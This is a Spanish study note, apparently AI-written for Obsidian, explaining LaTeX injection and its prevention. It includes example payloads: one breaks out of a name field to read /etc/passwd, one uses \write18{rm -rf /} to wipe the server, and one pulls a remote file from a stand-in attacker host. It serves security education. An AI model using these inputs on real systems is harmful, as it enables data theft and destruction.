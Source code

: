
### **¿Qué es una Inyección LaTeX?**

Es un tipo de ataque en el que un atacante **inyecta código LaTeX malicioso** en una aplicación que genera documentos PDF o imágenes a partir de entradas de usuario. Esto puede permitir al atacante **ejecutar comandos en el servidor**, **robar datos** o **manipular el documento generado**.

---

### **¿Cómo funciona?**

1. **Entrada de usuario**:  
   La aplicación permite que los usuarios ingresen texto que se procesará en un documento LaTeX.

2. **Inyección**:  
   El atacante ingresa código LaTeX malicioso en lugar de texto normal. Por ejemplo:
   ```latex
   \input{/etc/passwd}
   ```

3. **Procesamiento**:  
   El servidor compila el código LaTeX y genera un documento PDF o imagen. Si no se valida la entrada, el código malicioso se ejecuta.

---

### **Ejemplo Práctico**

- **Escenario**: Una aplicación web que genera certificados en PDF a partir de entradas de usuario.
- **Código vulnerable**:
  ```latex
  \documentclass{article}
  \begin{document}
  Nombre: \textbf{Usuario}
  \end{document}
  ```
- **Ataque**:  
  El atacante ingresa el siguiente texto en el campo "Nombre":
  ```latex
  }\input{/etc/passwd}\textbf{
  ```
  - El código LaTeX resultante sería:
    ```latex
    \documentclass{article}
    \begin{document}
    Nombre: \textbf{}\input{/etc/passwd}\textbf{}
    \end{document}
    ```
  - Al compilar, el servidor incluye el contenido del archivo `/etc/passwd` en el PDF.

---

### **¿Por qué es peligroso?**

- **Ejecución de comandos**: El atacante puede ejecutar comandos en el servidor usando paquetes como `\write18`.
- **Exfiltración de datos**: Puede leer archivos sensibles del servidor.
- **Manipulación de documentos**: Puede alterar el contenido del documento generado.

---

### **¿Cómo prevenir Inyecciones LaTeX?**

1. **Validar Entradas**:  
   Asegúrate de que las entradas del usuario sean válidas y estén sanitizadas. Por ejemplo, elimina o escapa caracteres especiales como `\`, `{`, `}`.

2. **Usar Modo Seguro**:  
   Compila LaTeX en modo seguro para deshabilitar comandos peligrosos como `\input` y `\write18`.

3. **Limitar Permisos**:  
   Ejecuta el compilador LaTeX con permisos mínimos necesarios para reducir el impacto de un ataque.

4. **Usar Alternativas**:  
   Considera usar bibliotecas que generen PDFs directamente sin pasar por LaTeX, como `PDFKit` o `WeasyPrint`.

---

### **Resumen**

- **Inyección LaTeX**: Ataque donde el atacante inyecta código LaTeX malicioso para ejecutar comandos o robar datos.
- **Prevención**: Valida entradas, usa modo seguro y limita permisos.

---

### **Diagrama de Inyección LaTeX**

```mermaid
sequenceDiagram
    participant Atacante
    participant Aplicación
    participant Servidor

    Atacante->>Aplicación: Envía código LaTeX malicioso
    Aplicación->>Servidor: Compila el código LaTeX
    Servidor->>Servidor: Ejecuta comandos maliciosos
    Servidor->>Atacante: Devuelve el documento manipulado
```


## **Inyección LaTeX: `\write18` y Explotación en Servidores Apache**

### **¿Qué es `\write18`?**

`\write18` es una funcionalidad de LaTeX que permite **ejecutar comandos del sistema operativo** durante la compilación de un documento. Esto puede ser extremadamente peligroso si un atacante logra inyectar código malicioso en un documento LaTeX.


### **¿Cómo funciona `\write18`?**

1. **Habilitación**:  
   Para que `\write18` funcione, el compilador LaTeX (como `pdflatex`) debe estar configurado en modo **no seguro** (es decir, con `--shell-escape` habilitado).

2. **Uso**:  
   El comando `\write18` ejecuta un comando del sistema directamente desde LaTeX. Por ejemplo:
   ```latex
   \write18{ls -la}
   ```
   Esto listaría los archivos en el directorio actual durante la compilación.

---

### **Ejemplo de Ataque con `\write18`**

- **Escenario**: Un servidor web permite a los usuarios subir archivos LaTeX para generar PDFs.
- **Ataque**: El atacante sube un archivo LaTeX con el siguiente contenido:
  ```latex
  \documentclass{article}
  \begin{document}
  \write18{rm -rf /}  // ¡Peligro! Esto borraría todo en el servidor.
  \end{document}
  ```
  - Si el servidor compila el archivo con `--shell-escape`, el comando `rm -rf /` se ejecutará, borrando archivos en el servidor.

---

### **Otras Formas de Burlar un Servidor Apache**

Además de `\write18`, hay otras técnicas que un atacante podría usar para explotar un servidor Apache que permita la compilación de LaTeX:

#### 1. **Inyección de Comandos en Archivos de Configuración**
   - Si el servidor Apache permite la carga de archivos de configuración personalizados, un atacante podría inyectar comandos maliciosos en estos archivos.
   - Ejemplo: Inyectar un comando en `.htaccess` para redirigir tráfico o ejecutar scripts.

#### 2. **Explotación de Permisos de Archivos**
   - Si el servidor Apache tiene permisos demasiado abiertos, un atacante podría modificar archivos críticos o subir scripts maliciosos.
   - Ejemplo: Subir un script PHP malicioso y ejecutarlo a través de una solicitud HTTP.

#### 3. **Ataques de Inclusión de Archivos**
   - Si el servidor permite la inclusión de archivos externos, un atacante podría incluir archivos maliciosos desde una URL remota.
   - Ejemplo: Inyectar `\input{http://atacante.com/malicioso.tex}` en un archivo LaTeX.

#### 4. **Uso de Expresiones Regulares Peligrosas**
   - Si el servidor usa expresiones regulares inseguras para validar entradas, un atacante podría inyectar código malicioso.
   - Ejemplo: Usar `\catcode` para cambiar el comportamiento de caracteres especiales en LaTeX.

### **Resumen**

- **`\write18`**: Permite ejecutar comandos del sistema durante la compilación de LaTeX. Es peligroso si no se configura correctamente.
- **Otras técnicas**: Inyección de comandos en archivos de configuración, explotación de permisos, inclusión de archivos remotos.
- **Prevención**: Deshabilitar `\write18`, validar entradas, limitar permisos y usar sandboxing.

---

### **Diagrama de Ataque con `\write18`**

```mermaid
sequenceDiagram
    participant Atacante
    participant Servidor
    participant CompiladorLaTeX

    Atacante->>Servidor: Sube archivo LaTeX malicioso
    Servidor->>CompiladorLaTeX: Compila el archivo con --shell-escape
    CompiladorLaTeX->>Servidor: Ejecuta comandos maliciosos
    Servidor->>Atacante: Resultado de los comandos ejecutados
```

---

### **Consejo Final**

Nunca confíes en las entradas del usuario. Siempre valida y sanitiza los datos antes de procesarlos, y asegúrate de que el entorno de compilación esté bien configurado y aislado.

---

¡Y eso es todo! Un apunte hermoso, claro y fácil de entender para tu Obsidian. 😊 Si necesitas más detalles o ajustes, no dudes en pedírmelo.




[[OWASP]]